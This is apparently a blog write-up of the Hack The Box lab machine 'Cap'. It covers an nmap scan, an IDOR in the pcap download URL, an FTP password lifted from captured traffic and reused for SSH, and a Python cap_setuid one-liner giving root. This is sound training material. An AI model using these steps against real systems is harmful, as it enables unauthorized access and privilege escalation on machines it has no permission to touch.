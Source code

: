 ```yaml
---
layout: post
title: "HTB: Cap"
author: Andrew Cherney
date: 2023-02-11 10:03:53
tags: htb easy-box linux webapp idor wireshark capabilities
icon: "assets/icons/cap.png"
post_description: "Cap is a clever name for this box as it involves looking through a pcap file for credentials to login as the user nathan. To obtain root the user must use a cap_setuid capability set for python. Overall basic but a pretty good test of some fundamentals."
---
```


<h1>Summary</h1>

Cap is a clever name for this box as it involves looking through a pcap file for credentials to login as the user nathan. To obtain root the user must use a cap_setuid capability set for python. Overall basic but a pretty good test of some fundamentals. 

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
nmap 10.10.10.245 -sC
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-12 17:33 CST
Nmap scan report for 10.10.10.245
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

<h2>Port 80 - http</h2>

![Security Dashboard](/img/cap/security_dashboard.png)

Here we have a security dashboard front page broadcasting basic security info such as security events, login attempts, and port scans. 

![Dashboard Sidebar](/img/cap/Cap_dashboard_sidebar.png)

On the sidebar there seems to be different pages that run differing commands. There's one for netstat, ifconfig, and a third for some packet capturing. 

![netstat](/img/cap/Cap_netstat.png)

![ifconfig](/img/cap/Cap_ifconfig.png)

![pcap download](/img/cap/Cap_pcap.png)

<h1>User as nathan</h1>

<h2>IDOR</h2>

If I download the pcap it gives me the file **1.pcap** but the more pressing matter is the url where I downloaded that pcap from. It's location is **/data/1** and if I replace that 1 with another number I might be able to download different pcaps. 

![data 0 pcap download](/img/cap/Cap_dashboard_data_0.png)

Excellent this gives a different number of packets and a different pcap file entirely. This is called Insecure Direct Object Reference, and as the name implies it allows an attacker to guess subsequent or future entries due to them following some scheme or pattern. 

<h2>PCAP Analysis</h2>

![pcap 0 wireshark](/img/cap/Cap_pcap_0_wireshark.png)

HTTP and FTP traffic can be found. Notable packets include the ones where the user nathan logs into FTP with the password **Buck3tH4TF0RM3!**, then lists the directory twice, and fails to retrieve a file named **notes.txt**. 

Now I've made this mistake in the pass where I spend hours enumerating through a service like ftp or a wordpress login, when I should always try that new password with the user for an ssh login. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Cap]
└──╼ $ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ cat user.txt
bd987c30a7e946cc2---------------
```

<h1>Root</h1>

<h2>Capabilities</h2>

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

<h2>cap_setuid</h2>

For the uninitiated, capabilities are a way to give specific administrative rights to commands, scripts etc.. that allow them to perform necessary functions without creating security issues, most of the time anyway. Take the capability **cap_net_bind_service**, which allows the service or command to bind to a port without needing root permissions or a password. 

For our purposes capabilities such as **cap_setuid** are what we look for, and with it attached to python is makes priv esc simple. We can construct a python command which imports the os module for linux command running, then set the user id to 0 (root) and run **/bin.bash** with **os.system**. 

```bash
nathan@cap:~$ python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~# cat /root/root.txt
d40593e74f550e2----------------
```

